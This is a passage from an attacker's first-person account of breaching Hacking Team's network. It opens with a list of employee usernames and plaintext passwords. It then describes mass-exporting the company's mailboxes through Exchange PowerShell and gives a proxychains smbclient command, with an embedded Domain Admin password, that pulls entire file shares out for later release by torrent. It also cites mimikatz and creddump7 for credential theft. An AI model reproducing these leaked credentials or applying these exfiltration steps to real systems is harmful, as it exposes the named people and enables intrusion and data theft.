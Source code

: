 HACKINGTEAM  w.furlan       Blu3.B3rry!
HACKINGTEAM  d.romualdi     Rd13136f@#
HACKINGTEAM  l.invernizzi   L0r3nz0123!
HACKINGTEAM  e.ciceri       2O2571&2E
HACKINGTEAM  e.rabe         erab@4HT!

[1] https://github.com/Neohapsis/creddump7
[2] http://proxychains.sourceforge.net/
[3] https://www.samba.org/
[4] http://ns2.elhacker.net/timofonica/manuales/Manual_de_Metasploit_Unleashed.pdf
[5] https://github.com/gentilkiwi/mimikatz


# [ 11 - Downloading the mail ]

With the Domain Admin password, I have access to the email, the heart of the
company. Since with each step I take there's a chance of being detected, I
start downloading their email before continuing to explore. Powershell makes
it easy [1]. Curiously, I found a bug with Powershell's date handling. After
downloading the emails, it took me another couple weeks to get access to the
source code and everything else, so I returned every now and then to download
the new emails. The server was Italian, with dates in the format
day/month/year. I used:
-ContentFilter {(Received -ge '05/06/2015') -or (Sent -ge '05/06/2015')}

with New-MailboxExportRequest to download the new emails (in this case all
mail since June 5). The problem is it says the date is invalid if you
try a day larger than 12 (I imagine because in the US the month comes first
and you can't have a month above 12). It seems like Microsoft's engineers only
test their software with their own locale.

[1] http://www.stevieg.org/2010/07/using-the-exchange-2010-sp1-mailbox-export-features-for-mass-exports-to-pst/


# [ 12 - Downloading Files ]

Now that I'd gotten Domain Admin, I started to download file shares using my
proxy and the -Tc option of smbclient, for example:

proxychains smbclient '//192.168.1.230/FAE DiskStation' \
    -U 'HACKINGTEAM/Administrator%uu8dd8ndd12!' -Tc FAE_DiskStation.tar '*'

I downloaded the Amministrazione, FAE DiskStation, and FileServer folders in
the torrent like that.


# [ 13 - Introduction to hacking windows domains ]

Before continuing with the story of the "weones culiaos" (Hacking Team), I
should give some general knowledge for hacking windows networks.

